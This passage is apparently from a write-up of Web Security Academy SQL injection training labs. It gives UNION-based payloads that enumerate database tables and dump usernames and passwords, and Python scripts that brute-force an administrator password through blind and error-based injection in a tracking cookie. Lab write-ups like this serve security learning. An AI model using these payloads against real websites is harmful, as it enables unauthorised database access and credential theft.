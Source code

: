 ```
            r = requests.get("https://0ada000e0444e88dc09a9948005700ad.web-security-academy.net/", cookies=cookies)
            if "welcome" not in r.text.lower():
                continue
            password += char
            print(password)
            index += 1
main()

```

### Eighth Lab

To solve the lab, we need to display the database version string.

We know we can use a UNION attack.

First we need to see how many columns there are, we do that with an order by query: `' ORDER BY 1 -- -`. When we get an error we know there are `current column number - 1` columns. Then we need to see which columns displays strings. We do that with: `' UNION SELECT 'abc','def' -- -`. The string reflected implies which column reflects. We know it's the first one, so we switch 'abc' for `@@version` and `'def'` for `NULL`and the lab is solved.

### Ninth Lab

First we need to find the name of the users table: `' UNION SELECT table_name, NULL FROM information_schema.tables -- -`. 

After, we find the name of the columns in that table: `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name=<found_table_name>`

Then we simply fetch username and password with our attained knowledge.

`' UNION SELECT <found_username_column_name>, <found_password_column_name FROM <found_table_name> -- -`

We log in and the lab is solved.

### Tenth Lab

We repeat the same logic but with table_name in the first select and all_tables as the table: `' UNION SELECT table_name,NULL FROM all_tables--`, then we do: `'  UNION  SELECT  column_name,NULL  FROM  all_tab_columns  WHERE  table_name='USERS_ABCDEF'--`. Finally we use the attained information to construct a query:
`'   UNION   SELECT   USERNAME_ABCDEF,   PASSWORD_ABCDEF   FROM   USERS_ABCDEF--`

### Eleventh Lab

Simply use this script which uses the case when condition and string concatenation to induce conditional errors based on a given character of the password being correct.

```
import string
import requests
import string

payload = ""
count = 1

while count <= 30:
    for char in string.ascii_letters + string.digits:
        r = requests.get(f"https://0a8d001c0488b738c0eda475002f00cb.web-security-academy.net/", cookies={"TrackingId":f"FqkZypIERiKR57Km'||(SELECT CASE WHEN(SUBSTR(password,1,{count})='{payload}{char}') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'", "session":"EqyCUGiM2rYeDvhPu8Js9o1I2sB0ZTDK"})
        if r.status_code != 500:
            continue
```